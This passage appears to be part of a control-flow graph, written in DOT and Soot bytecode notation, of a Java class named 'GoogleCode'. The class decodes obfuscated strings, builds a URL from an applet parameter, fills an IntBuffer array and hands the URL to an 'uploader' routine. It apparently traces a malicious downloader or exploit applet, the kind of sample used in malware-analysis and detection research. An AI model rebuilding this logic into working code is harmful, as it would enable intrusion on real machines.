    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <GoogleCode: java.lang.String getParameter(java.lang.String)>";
    "push \"0B09BB0\""
    "virtualinvoke <GoogleCode: java.lang.String getParameter(java.lang.String)>"->"push \"0B09BB0\"";
    "push \"B\""
    "push \"0B09BB0\""->"push \"B\"";
    "push \"B\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "store.r r115"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"store.r r115";
    "staticinvoke <GoogleCodeSearch: java.lang.String decodeString(java.lang.String)>"
    "store.r r115"->"staticinvoke <GoogleCodeSearch: java.lang.String decodeString(java.lang.String)>";
    "store.r r477"
    "staticinvoke <GoogleCodeSearch: java.lang.String decodeString(java.lang.String)>"->"store.r r477";
    "store.r r477"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "load.r r83"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r83";
    "load.r r83"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r83";
    "store.r r83"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r83";
    "load.r r83"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "load.r r477"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r477";
    "load.r r477"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "store.r r0"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r0";
    "store.r r0"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r0";
    "load.r r0"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "load.r r115"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r115";
    "load.r r115"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "new java.net.URL"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"new java.net.URL";
    "new java.net.URL"->"store.r r0";
    "store.r r0"->"load.r r0";
    "load.r r0"->"load.r r404";
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"
    "load.r r404"->"specialinvoke <java.net.URL: void <init>(java.lang.String)>";
    "push \"9dd0ddd9ddd090d90\""
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"->"push \"9dd0ddd9ddd090d90\"";
    "push \"d\""
    "push \"9dd0ddd9ddd090d90\""->"push \"d\"";
    "push \"d\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <GoogleCode: java.nio.IntBuffer[] __K(java.lang.String,java.lang.String)>"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <GoogleCode: java.nio.IntBuffer[] __K(java.lang.String,java.lang.String)>";
    "fieldput <GoogleCode: java.nio.IntBuffer[] mem>"
    "virtualinvoke <GoogleCode: java.nio.IntBuffer[] __K(java.lang.String,java.lang.String)>"->"fieldput <GoogleCode: java.nio.IntBuffer[] mem>";
    "fieldput <GoogleCode: java.nio.IntBuffer[] mem>"->"load.r r0";
    "staticinvoke <GoogleUploader: void init(java.net.URL)>"
    "load.r r0"->"staticinvoke <GoogleUploader: void init(java.net.URL)>";
    "push 10L"
    "staticinvoke <GoogleUploader: void init(java.net.URL)>"->"push 10L";
    "staticinvoke <java.lang.Thread: void sleep(long)>"
    "push 10L"->"staticinvoke <java.lang.Thread: void sleep(long)>";
    "goto push 10L"
    "staticinvoke <java.lang.Thread: void sleep(long)>"->"goto push 10L";
    "staticinvoke <java.lang.Thread: void sleep(long)>"->"store.r r0";
    "store.r r0"->"return";
}
